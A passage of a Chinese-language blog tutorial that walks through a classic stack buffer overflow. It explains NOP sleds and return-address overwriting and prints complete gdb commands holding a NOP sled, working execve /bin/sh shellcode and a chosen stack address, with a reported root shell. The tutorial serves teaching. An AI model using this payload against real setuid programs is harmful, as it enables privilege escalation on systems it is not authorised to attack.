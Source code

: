 #### 放置 Shellcode

我们的目标是传入一个参数，这个参数中有我们刚刚得到的 `shellcode`，然后最后把 `return address` 给覆写位 `shellcode` 的位置，让 `func` 程序执行完后就返回到 `shellcode` 执行它。

在 `Linux` 系统中，内存地址每次也许会左右变动一点，所以我们并不能真正确定 `shellcode` 的位置，`NOP-sled` 是一种解决方案。

#### NOP-sled

`NOP-sled` 是一组 `NOP(no-operation)` 命令，它的作用是当 CPU 读取到`NOP` 指令时，它告诉 CPU：去执行下一条命令。所以如果我们在 `shellcode` 前面全部加上 `NOP` ，那么只要 `return address` 落在了其中的一个 `NOP` 上，它就会让 CPU 去执行下一条命令，而下一条命令又让 CPU 去执行下下一条命令。就这样让 CPU 像做梭梭板一样一直往下执行，直到执行到 `shellcode` 。`NOP` 的值也许会随着 CPU 的型号的变化而变化，但在这个例子中我们的 `NOP` 值为 `\x90`

{% include extensions/lazyload.html img='/img/in-post/post-buffer-overflow-explained/16.jpg' %}

 我们一共要传入一个 116 位的参数，`shellcode` 占了 25 位，我们还剩 91 位，除去 20 位 `return address` ，我们还剩 71 位，所以我们的参数构成如下：

参数:  `[ NOP * 71 ][ SHELLCODE ][ 5 x 'EEEE' ]`

四位的 `E` 我们会在后面替换为内存地址。

参数传入 `stack` 后大概是这样的。

{% include extensions/lazyload.html img='/img/in-post/post-buffer-overflow-explained/17.jpg' %}

#### Executing

我们使用上面构造的参数来运行一下程序。

```bash
run $(python -c 'print "\x90" * 71 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x45\x45\x45\x45" * 5')
```

{% include extensions/lazyload.html img='/img/in-post/post-buffer-overflow-explained/18.jpg' %}


{% include extensions/lazyload.html img='/img/in-post/post-buffer-overflow-explained/19.jpg' %}

#### 填充地址

我们使用 `x/100x $sp-100` 查看当前内存

{% include extensions/lazyload.html img='/img/in-post/post-buffer-overflow-explained/20.jpg' %}

我们选取一个全部是 `\x90` 的内存，在这里我选择 `0xffffd1e0` 。我们把这个地址填入之前的 `EEEE`。注意 `return address` 的读取顺序与内存地址的读取顺序是不同的，是相反的。

{% include extensions/lazyload.html img='/img/in-post/post-buffer-overflow-explained/21.jpg' %}

我们在这里选择的是地址 `0xffffd1e0` 那么在填充 `return address` 的时候要填充 `0xe0d1ffff`。

### 获取 Shell

综合上面，我们可以完整的组合得到我们需要的参数。我们把这段参数传入程序：

```bash
run $(python -c 'print "\x90" * 71 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xe0\xd1\xff\xff" * 5')
```

可以看到我们成功利用缓冲区溢出漏洞以 `root` 权限运行了 `whoami` 命令。

{% include extensions/lazyload.html img='/img/in-post/post-buffer-overflow-explained/22.jpg' %}


### 参考

> https://www.coengoedegebure.com/buffer-overflow-attacks-explained/
